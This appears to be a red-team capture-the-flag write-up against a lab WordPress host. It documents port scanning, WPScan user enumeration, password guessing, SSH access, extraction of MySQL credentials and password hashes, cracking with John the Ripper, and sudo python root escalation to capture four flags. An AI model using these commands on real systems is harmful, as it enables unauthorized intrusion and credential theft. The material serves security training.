# Red Team Summary of Operations - Offensive Report

### Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Netdiscover scan results for possible target machines:

Command: '$ netdiscover -r 192.168.1.90'

![Netdiscover Scan Command](/Images/Day1/netdiscover scan for target ip.JPG "Netdiscover Scan Command")

![Netdiscover Scan Results](/Images/Day1/netdiscover scan for target ip 2.JPG "Netdiscover Scan Results")

Nmap scan results for each machine reveal the below services and OS details:

Command: `$ nmap -sV 192.168.1.110`

![Nmap scan results](/Images/Day1/nmap scan of exposed ports and services on target.JPG "Nmap scan results")

This scan identifies ports and services that could potentially be used for entry:

**Target 1**
1. Port 22/TCP 	    Open 	SSH
2. Port 80/TCP 	    Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

### Critical Vulnerabilities
The following vulnerabilities were identified on each target:

**Target 1**
1. User Enumeration (WordPress site)
2. Weak User Password
3. Unsalted User Password Hash (WordPress database)
4. Misconfiguration of User Privileges/Privilege Escalation

### Exploitation
Target 1 was successfully penetrated by the Red Team and the following confidential data was compromised:

**Target 1**
- **Flag1: b9bbcb33ellb80be759c4e844862482d**
![Flag 1](/Images/Day1/ssh michael find first flag 3.JPG "Flag 1")
- Exploit Used:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`

![WPScan](/Images/Day1/wpscan of target.JPG "WPScan")

![WPScan results](/Images/Day1/wpscan results.JPG "WPScan results")

- Targeting user Michael
    - Manual "Brute Force" attack to finds Michael’s password
	- Several basic and common passwords were guessed to determine Michael's password
		- Password: michael
    - User password was weak and obvious as expected
- Capturing Flag 1: SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html in a HTML comment below the footer.
    - Commands:
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html`

![SSH Michael](/Images/Day1/ssh michael.JPG "SSH Michael")

![SSH Michael Find Flag 1](/Images/Day1/ssh michael find first flag.JPG "SSH Michael Find Flag 1")

![SSH Michael navigating folders](/Images/Day1/ssh michael find first flag 2.JPG "SSH Michael navigating folders")

![Flag 1](/Images/Day1/ssh michael find first flag 3.JPG "Flag 1")

- **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
- Exploit Used:
    - Same exploit used to discover Flag 1.
    - Capturing Flag 2: While using Michael's user access Flag 2 was discovered by navigating through directories and files.
        - Flag 2 was found in /var/www next to the html folder that held Flag 1.
        - Commands:
            - `ssh michael@192.168.1.110` 
            - `pw: michael`
            - `cd ../` 
            - `cd ../`
            - `cd var/www`
            - `ls -l`
            - `cat flag2.txt`

![Flag 2](/Images/Day1/flag 2.JPG "Flag 2")

![Flag 2 File cat](/Images/Day1/flag 2 (2).JPG "Flag 2 File cat")

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - While using Michael's credentials, the Red Team discovered the wp-config.php file and login credentials that grant access to a database
	- MySQL was used to explore the database.
        - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

![MySQL login](/Images/Day1/msql login.JPG "MySQL login")
![Navigating in MySQL](/Images/Day1/mysql 2.JPG "Navigating MySQL")
![Flag 3 location](/Images/Day1/mysql flag 3.JPG "Flag 3 location")

- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - ![wp_users table](/Images/Day1/mysql users.JPG "wp_users table")

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - ![John the Ripper results](/Images/Day1/john stevens hashed password.JPG "John the Ripper results")

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls`
                - `cat flag4.txt`

![ssh Steven](/Images/Day1/loggin in as steven using cracked password.JPG "ssh Steven")
![Getting root access as Steven](/Images/Day1/loggin in as steven using cracked password and getting root access.JPG "Getting root access as Steven")
![Flag 4 location](/Images/Day1/flag 4.JPG "Flag 4 location")